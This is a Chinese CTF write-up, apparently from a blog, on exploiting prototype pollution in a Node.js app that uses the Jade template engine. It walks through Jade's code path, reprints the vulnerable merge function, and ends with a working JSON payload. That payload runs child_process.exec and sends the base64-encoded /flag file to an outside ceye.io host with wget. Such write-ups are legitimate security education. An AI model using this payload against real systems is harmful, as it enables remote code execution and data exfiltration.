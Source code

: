 ```yaml
---
title: pwnhub 被污染的Jade
date: 2019-12-30 11:12:03
tags:js 原型链污染
---
```


题目本身不难，但是比较麻烦的就是两点，一是没给代码，后面怎么merge全靠猜，二是题目的cache严重，中间很多测试都被别人干扰，第一天的下午及其严重，基本上开始很多测试都被别人带跑偏了...

下面我就来梳理一下我的正常思路...

<!--more-->

# 题目开始

首先打开题目是比较简单粗暴的模板渲染，再结合题目不难发现题目是node+jade

![image.png-31.6kB][1]

因为我打开题目已经是下午了，所以基本上打开题目就一直都是报错，大概长这样：

![image.png-79.7kB][2]

基本也没什么好猜了，直接能看出来就是js原型链污染

关于js原型链污染的细节这里就不赘述了，可以看下面两篇文章

 - [https://lorexxar.cn/2018/12/07/codingbreak-wp/#js%E7%89%B9%E6%80%A7](https://lorexxar.cn/2018/12/07/codingbreak-wp/#js%E7%89%B9%E6%80%A7)
 - [https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html](https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html)

顺着这样的思路就可以翻翻看jade的代码看看

# 污染jade

在之前文章中提到，我们可以通过污染object来影响js中没有设置的变量属性，首先我们就需要找一个没有被设置过但是却很重要的变量，形似与：

```
if(x.xxxxx){
    x.xxxxx
}
```

这样的代码在jade中非常多

首先顺着代码流程跟到`lib/index.js` 200行

![image.png-109.8kB][3]

 可以看到这里的body直接拼接进了代码，但是这里body是本身有值的，所以顺着跟下去到149行。

 ![image.png-44.7kB][4]

这里是我的第一个思路，通过控制self，然后污染globals，globals会在addwith中直接被拼接进代码中。

这也是为什么我反复吐槽题目没有给代码...因为这条路在我本地环境里是可以走通的，但是在远程你会喜获一个报错，而且我调试了一晚上也不知道怎么修复这个报错...

没办法，因为这里走不下去，所以只能将self设置为true，往下走别的路。

当我们设置为true时，我们能控制的只有js变量，然后我们逐渐跟下去。

往下跟到`lib/compile.js` 60行

![image.png-69.6kB][5]

然后跟入visit函数

![image.png-45.2kB][6]

到这里不难发现可以覆盖line参数，运气比较好的是，到这里就能执行了，事实上往别的路走还有很多能执行的地方。

到这里jade这部分基本已经完成了，剩下的就是在远程中如何执行。

# 回到远程

在成功执行命令之后我们可以拿到远程的代码

```
const express = require('express');
const path = require('path');

const app = express();
var router = express.Router();

app.set('views', path.join(__dirname, 'views'));
app.engine('jade', require('jade').__express);
app.set("view engine", "jade");

app.use(express.json()).use(express.urlencoded({
    extended: false
}));

const isObject = obj => obj && obj.constructor && obj.constructor === Object;
const merge = (a, b) => {
    for (var attr in b) {
        if (isObject(a[attr]) && isObject(b[attr])) {
            merge(a[attr], b[attr]);
        } else {
            a[attr] = b[attr];
        }
    }
    return a
}
const clone = (a) => {
    return merge({}, a);
}

router.get('/', (req, res, next) => {
    res.render('index', {
        title: 'HTML',
        name: ''
    });
});

router.post('/', (req, res, next) => {
    var body = JSON.parse(JSON.stringify(req.body));
    var copybody = clone(body)
    res.render('index', {
        title: 'HTML',
        name: copybody.name || ''
    });
});

app.use('/', router)

app.listen(3000, () => console.log('Example app listening on port http://127.0.0.1:3000 !'))
```

不难发现出题人强行写了一个merge，把req.body和`{}`合并导致了原型链污染，所以传递的对象不能是name，这也是坑了我开始的一大个问题。

然后就是覆盖globals会导致谜一样的错误

![image.png-82.2kB][7]

最后也没能找到原因，使用第二条路就比较简单了，直接可以执行

```
{"__proto__":{"self":true,"line":"0, \"\" ));global.process.mainModule.constructor._load('child_process').exec(`wget msocp8.ceye.io?$(cat /flag|base64)`, function(){} );jade_debug.unshift(new jade.DebugItem( 0","filename":"test","title":"test","name":"test"}}
```

![image.png-368.3kB][8]


# 写在最后

其实回顾题目还挺有意思的，只是可惜，jade的官方的范例中没有这种merge的操作，但题目又不给出代码，导致本来调试完成的题目成了远程瞎猜了，不过运气比较好的是，这题的利用不太复杂，如果特别复杂的话可能再配合远程cache这题就没法做了...




[1]: http://static.zybuluo.com/LoRexxar/8wc6ywckycmqv28jdjxoi9vj/image.png
[2]: http://static.zybuluo.com/LoRexxar/ywtm8z22g8a5zurlh6wb540u/image.png
[3]: http://static.zybuluo.com/LoRexxar/huxieo13n6vdw6cwwkacff9b/image.png
[4]: http://static.zybuluo.com/LoRexxar/aw9blbi9xf4f10ivgcodj0z6/image.png
[5]: http://static.zybuluo.com/LoRexxar/297sys9curah7u5md4ny9g2y/image.png
[6]: http://static.zybuluo.com/LoRexxar/jgn2kebq12an65iz9dhzm6lm/image.png
[7]: http://static.zybuluo.com/LoRexxar/aketq6lib1ajm6vb0q7ttijk/image.png
[8]: http://static.zybuluo.com/LoRexxar/hqmbmrfm57gxpf8koh6ks11j/image.png